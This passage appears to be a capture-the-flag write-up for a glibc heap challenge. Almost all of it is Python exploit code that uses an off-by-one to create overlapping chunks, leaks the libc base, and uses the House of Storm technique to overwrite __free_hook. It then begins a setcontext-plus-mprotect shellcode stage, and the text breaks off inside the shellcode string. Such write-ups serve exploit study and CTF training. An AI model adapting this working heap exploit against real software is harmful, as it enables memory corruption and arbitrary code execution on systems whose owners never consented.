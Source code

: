 [usage of setcontext][2]

# Solution
* #1Off_By_One(shrink)  ===> overlap ===> Leak  libc
```python
add(0x500)#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18)#0
edit(0,"A"*0x18)
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x2d8)#1
add(0x88)#3
add(0x48)#5
free(4)
show(5)
#0x47b75+base
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b78-0x7ffff7a0d000)
libc.address=base
log.warning(hex(base))
```
* clear unsorted bin ptr
`add(0x458+0x90)#4`
* do step#1 again to set `__free_hook` by   [`House of storm`][1]
```python
aim=libc.sym['__free_hook']
bk=aim-0x20+8
bk_nextsize=aim-0x20-0x18-5
add(0x500)#6
add(0x88)#7
add(0x88)#8
free(6)
add(0x18)#6
edit(6,"A"*0x18)
add(0x88)#9
add(0x88)#10
free(9)
free(7)
add(0x2d8)#7
add(0x78)#9
add(0x48)#11
add(0x4a9)#12
edit(10,p64(0)*7+p64(0x4a1)+p64(0)+p64(bk)+p64(0)+p64(bk_nextsize))#edit the head of LARGECHUNK
edit(11,p64(0)+p64(0x21)*7)
free(10)
edit(11,p64(0)+p64(0x4b1)+p64(0)+p64(aim-0x20))#edit the head & bk of UNSORTEDCHUNK
add(0x48)#10
```
* Now we can Run our Shellcode by `setcontext+0x35` + `mprotect`
```python
magic=libc.sym['__free_hook']+0x8
# read + mprotect 
top='''
mov rdx,0x1234000
mov al,9
mov rdi,rdx
jmp .+0x14
'''
shellcode='''
```

[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()